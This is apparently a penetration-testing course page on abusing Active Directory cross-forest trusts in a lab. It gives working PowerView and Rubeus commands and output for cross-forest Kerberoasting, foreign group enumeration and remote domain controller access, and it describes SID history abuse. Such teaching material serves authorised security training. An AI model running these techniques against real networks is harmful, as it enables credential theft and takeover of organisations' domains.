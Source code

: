 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser**

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### **Enumerating the mssqlsvc Account**

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### **Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

***

## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

### **Using Get-DomainForeignGroupMember**

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### **Accessing DC03 Using Enter-PSSession**

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This attack will be covered in-depth in a later module focusing more heavily on attacking AD trusts.

***

## Onwards

Next, we'll walk through some examples of attacking across a forest trust from a Linux attack host.
